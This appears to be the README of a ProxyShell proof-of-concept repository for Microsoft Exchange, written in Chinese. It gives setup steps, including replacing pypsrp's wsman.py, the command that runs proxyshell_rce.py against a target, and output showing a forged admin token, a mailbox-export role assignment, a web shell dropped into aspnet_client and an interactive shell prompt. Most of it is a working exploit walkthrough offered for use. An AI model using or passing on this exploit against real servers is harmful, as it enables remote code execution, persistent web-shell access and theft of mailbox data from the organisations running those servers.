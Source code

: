 # ProxyShell
ProxyShell 漏洞poc
## 改造ProxyShell poc
需要安装
pip3 install pypsrp

并使用wsman.py替换掉site-packages/pypsrp/wsman.py

cp wsman.py venv/lib/*/site-packages/pypsrp/wsman.py

    usage: proxyshell.py -u url -e emai
    
    proxyshell_rce.py -u https://192.168.31.60 -e administrator@xxxx.com
    
    LegacyDN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=937c6ca77fe448969b4d5c8f5a5c55b3-Admin
    SID: S-1-5-21-484177469-2149344085-4186611703-500
    
    Token: VgEAVAdXaW5kb3dzQwBBCEtlcmJlcm9zTBZhZG1pbmlzdHJhdG9yQGN1YmUuY29tVSxTLTEtNS0yMS00ODQxNzc0NjktMjE0OTM0NDA4NS00MTg2NjExNzAzLTUwMEcBAAAABwAAAAxTLTEtNS0zMi01NDRFAAAAAA==
    
    PS> dropshell
    
    8000
    
    127.0.0.1 - - [08/Sep/2021 10:27:51] "POST /wsman HTTP/1.1" 200 -
    
    127.0.0.1 - - [08/Sep/2021 10:27:52] "POST /wsman HTTP/1.1" 200 -
    
    127.0.0.1 - - [08/Sep/2021 10:27:53] "POST /wsman HTTP/1.1" 200 -
    
    127.0.0.1 - - [08/Sep/2021 10:27:53] "POST /wsman HTTP/1.1" 200 -
    
    127.0.0.1 - - [08/Sep/2021 10:27:53] "POST /wsman HTTP/1.1" 200 -
    
    127.0.0.1 - - [08/Sep/2021 10:27:54] "POST /wsman HTTP/1.1" 200 -
    
    OUTPUT:
    
    Mailbox Import Export-Administrator-15
    
    ERROR:
    
    
    127.0.0.1 - - [08/Sep/2021 10:27:54] "POST /wsman HTTP/1.1" 200 -
    
    127.0.0.1 - - [08/Sep/2021 10:27:55] "POST /wsman HTTP/1.1" 200 -
    
    OUTPUT:
    
    xxxx.com/Users/Administrator\MailboxExport2
    
    ERROR:
    
    
    Shell URL: https://192.168.31.60/aspnet_client/igejolgyhzkywvxz.aspx
    
    Testing shell 0
    
    Testing shell 1
    
    Shell>






## Reference: ##

- 1.https://github.com/ktecv2000/ProxyShell

- 2.https://raw.githubusercontent.com/Ridter/proxyshell_payload

- 3.https://github.com/dmaasland/proxyshell-poc